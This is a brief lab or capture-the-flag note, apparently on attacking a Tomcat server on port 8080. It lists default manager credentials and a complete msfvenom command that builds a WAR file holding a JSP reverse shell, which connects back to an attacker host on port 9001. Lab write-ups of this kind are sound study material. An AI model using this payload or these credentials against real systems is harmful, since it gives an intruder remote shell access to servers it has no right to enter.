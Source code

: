 
#### 8080 Http
	tomcat:s3cret credentials
	Upload a malicious war file and trigger it (Payload: msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.30 LPORT=9001 -f war > shell.war)